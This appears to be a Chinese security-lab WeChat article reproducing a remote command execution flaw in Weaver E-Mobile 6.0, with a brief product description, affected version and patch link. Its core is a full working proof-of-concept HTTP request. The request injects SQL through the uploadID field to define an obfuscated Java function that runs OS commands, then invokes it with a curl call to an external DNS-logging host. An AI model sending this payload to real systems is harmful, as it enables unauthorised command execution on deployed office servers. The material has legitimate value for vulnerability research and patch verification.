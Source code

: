 #  泛微E-Mobile 6.0远程命令执行漏洞

原创 弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#POC 33 个

#网络安全 59 个

#复现 46 个

#漏洞 73 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![]()  
 **0x00写在前面**  
  
 **本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![]()  
 **0x01漏洞介绍**  

Weaver E-Mobile是中国泛微科技（Weaver）公司的一个协同办公系统。

E-Mobile6最新版是上海泛微网络科技推出的一款手机办公应用，将企业微信重新改造，加入更多丰富实用的功能，让沟通更加便捷。

![]()  
 **0x02影响版本**  
  

泛微E-Mobile 6.0

  

  

![]()  
 **0x03漏洞复现**  
  

1.部署漏洞环境访问

![]()

2.对漏洞进行复现

 **   Poc （POST）**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /client.do HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeUpgrade-Insecure-Requests: 1Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTm8YXcJeyKDClbU7Content-Length: 1151  
    ------WebKitFormBoundaryTm8YXcJeyKDClbU7Content-Disposition: form-data; name="method"  
    getupload------WebKitFormBoundaryTm8YXcJeyKDClbU7Content-Disposition: form-data; name="uploadID"  
    1';CREATE ALIAS if not exists MzSNqKsZTagmf AS CONCAT('void e(String cmd) throws java.la','ng.Exception{','Object curren','tRequest = Thre','ad.currentT','hread().getConte','xtClass','Loader().loadC','lass("com.caucho.server.dispatch.ServletInvocation").getMet','hod("getContextRequest").inv','oke(null);java.la','ng.reflect.Field _responseF = currentRequest.getCl','ass().getSuperc','lass().getDeclar','edField("_response");_responseF.setAcce','ssible(true);Object response = _responseF.get(currentRequest);java.la','ng.reflect.Method getWriterM = response.getCl','ass().getMethod("getWriter");java.i','o.Writer writer = (java.i','o.Writer)getWriterM.inv','oke(response);java.ut','il.Scan','ner scan','ner = (new java.util.Scann','er(Runt','ime.getRunt','ime().ex','ec(cmd).getInput','Stream())).useDelimiter("\\A");writer.write(scan','ner.hasNext()?sca','nner.next():"");}');CALL MzSNqKsZTagmf('curl 9b0o4q.dnslog.cn');--------WebKitFormBoundaryTm8YXcJeyKDClbU7--

POST请求，响应存在漏洞

![]()

DNSlog生成测试域名

![]()

4.nuclei测试（漏洞存在）

![]()

  

![]()  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://www.weaver.com.cn/new/product/emobile/

  

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![]()

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![]()

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

